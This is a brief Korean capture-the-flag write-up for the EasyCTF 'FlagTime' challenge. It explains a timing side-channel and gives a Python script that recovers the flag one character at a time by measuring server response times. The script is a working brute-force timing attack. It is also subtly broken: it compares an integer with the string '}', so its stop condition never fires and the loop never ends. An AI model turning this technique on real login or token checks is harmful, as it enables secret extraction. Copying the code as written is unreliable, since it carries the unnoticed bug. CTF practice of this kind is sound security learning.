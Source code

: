 # FlagTime

제목과 문제푸는 방식이 일치한다. 그냥 아무문자 asd를 넣었을 때 와 맞는 정답을 넣었을 때 문자열을 비교해서 리턴해주는 시간이 차이가 난다. 타이밍 어택인가뭔가 라고 어디서 본듯. 실제 플래그도 타이밍 어택이더라....  

```python
from socket import *
import time
import base64


def send(data):

	ip="c1.easyctf.com"
	port=12482

	s=socket(AF_INET,SOCK_STREAM)  #서버와 소통할 소켓을 만드는 과정
	s.connect((ip,port))
	s.recv(1024)
	s.send(data.encode()+"\n".encode()) #데이터 전송
	start = time.time() #문자열 보낸 시간 체크
	recv=s.recv(1024)
	reqtime = time.time() - start #답을 받은 시간 체크
	return reqtime
ip="c1.easyctf.com"
port=12482

#s=socket(AF_INET,SOCK_STREAM)  #서버와 소통할 소켓을 만드는 과정
flag="easyctf{"
#recv=s.recv(1024)
while True:
	max=0
	for letter in range(30,127):   #문자열 전송
		start_cnt=0
		#s.connect((ip,port))
		cnt_time=send(flag+chr(letter))
		print(flag+chr(letter)+"   ",end="")
		print(cnt_time)
		if cnt_time>max: #문자열을 하나씩 비교하면서 리턴받는 시간이 길수록 답에 근접하다
			max=cnt_time
			add_flag=letter
	flag+=chr(add_flag)
	print(flag)
	if add_flag=='}':
		print("flag ============>",flag)
		break
```
